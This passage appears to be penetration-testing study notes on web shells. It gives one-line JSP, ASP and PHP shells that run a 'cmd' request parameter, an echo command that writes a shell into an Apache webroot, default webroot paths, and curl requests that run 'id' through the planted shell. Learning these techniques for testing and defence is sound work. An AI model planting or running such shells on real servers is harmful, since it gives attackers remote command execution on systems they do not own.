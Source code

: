 Code: jsp

```
<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>

```

Code: asp

```
<% eval request("cmd") %>

```

**2 - Upload the web Shell**

Once we have our web shell, we need to place our web shell script into
the remote **host's web directory (webroot)** to execute the script through
the web browser. This can be through a vulnerability in an upload
feature, which would allow us to write one of our shells to a file, i.e.
 `shell.php` and upload it, and then access our uploaded file to execute commands.

However if we dont have an upload feature and only access is through an exploit, we can write the shell directly to the webroot. as such:

**(for apache server)**

`echo '<?php system($_REQUEST["cmd"]); ?>' > /var/www/html/shell.php`

The following are the default webroots for common web servers:

| Web Server | Default Webroot |
| --- | --- |
| Apache | /var/www/html/ |
| Nginx | /usr/local/nginx/html/ |
| IIS | c:\inetpub\wwwroot\ |
| XAMPP | C:\xampp\htdocs\ |

**3 - accessing it**

Once we write our web shell, we can either access it through a browser or by using `cURL`. We can visit the `shell.php` page on the compromised website, and use `?cmd=id` to execute the `id` command:

in the browser address, type ⇒ *http://SERVER_IP:PORT/shell.php?cmd=**id***

OR use **cURL**

```
curl http://SERVER_IP:PORT/shell.php?cmd=**id**

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

# **USEFUL LINKS 🔗**

- Link dump
